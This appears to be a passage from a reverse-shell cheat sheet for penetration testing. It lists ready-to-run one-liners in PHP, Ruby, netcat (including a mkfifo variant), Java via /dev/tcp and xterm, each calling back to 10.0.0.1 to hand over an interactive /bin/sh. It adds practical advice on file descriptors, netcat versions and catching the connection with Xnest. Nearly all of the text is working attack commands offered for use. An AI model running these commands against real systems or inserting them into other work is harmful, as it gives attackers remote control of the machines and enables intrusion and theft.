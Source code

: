 #### PHP

This code assumes that the TCP connection uses file descriptor 3. This worked on my test system. If it doesn’t work, try 4, 5, 6…

```php
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

If you want a .php file to upload, see the more featureful and robust [php-reverse-shell](http://pentestmonkey.net/tools/web-shells/php-reverse-shell).

#### Ruby

```ruby
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

#### Netcat

Netcat is rarely present on production systems and even if it is there are several version of netcat, some of which don’t support the -e option.

```
nc -e /bin/sh 10.0.0.1 1234
```

If you have the wrong version of netcat installed, [Jeff Price points out here](http://www.gnucitizen.org/blog/reverse-shell-with-bash/#comment-127498) that you might still be able to get your reverse shell back like this:

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```

#### Java

```java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

#### xterm

One of the simplest forms of reverse shell is an xterm session. The following command should be run on the server. It will try to connect back to you (10.0.0.1) on TCP port 6001.

```
xterm -display 10.0.0.1:1
```

To catch the incoming xterm, start an X-Server (:1 – which listens on TCP port 6001). One way to do this is with Xnest (to be run on your system):

```
Xnest :1
```
